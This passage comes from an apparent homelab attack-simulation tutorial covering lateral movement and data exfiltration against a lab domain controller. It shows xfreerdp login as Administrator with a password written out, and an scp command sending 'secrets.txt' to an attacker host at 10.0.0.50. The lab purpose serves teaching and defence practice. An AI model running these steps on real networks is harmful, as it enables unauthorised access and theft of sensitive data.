 
### Attack Graph (Lateral Movement 2.0)

*Attack graph diagram not included.*

---

### Operations (Lateral Movement 2.0)

- Identify the domain controller details:
  ```
  nltest /dsgetdc:
  ```
- Scan for open ports on the domain controller; note that port 3389 (RDP) is open.
- Use `xfreerdp` to establish an RDP session:
  ```
  xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
  ```
- Gain access to the Domain Controller.
- Navigate the file system to locate the “Production Documents” folder.
- **Success!** You now have the means for data exfiltration.

---

## Data Exfiltration

Attackers extract sensitive data from a compromised network, such as intellectual property, customer records, or financial information, often using covert methods.

### Mandatory VMs Powered-On (Data Exfiltration)

- [project-x-sec-box]
- [project-x-dc]
- [project-x-attacker]

---

### Attack Graph (Data Exfiltration)

*Attack graph diagram not included.*

---

### Operations (Data Exfiltration)

- Use methods like cloud storage or SMB file sharing. For simplicity, use `scp`:
  - On the Domain Controller, navigate to:
    ```
    C:\Users\Administrator\Documents\ProductionFiles
    ```
  - Execute:
    ```
    scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
    ```
  - Enter the attacker’s password when prompted.
- Verify the file transfer to `/home/attacker`.
- **Success!**

---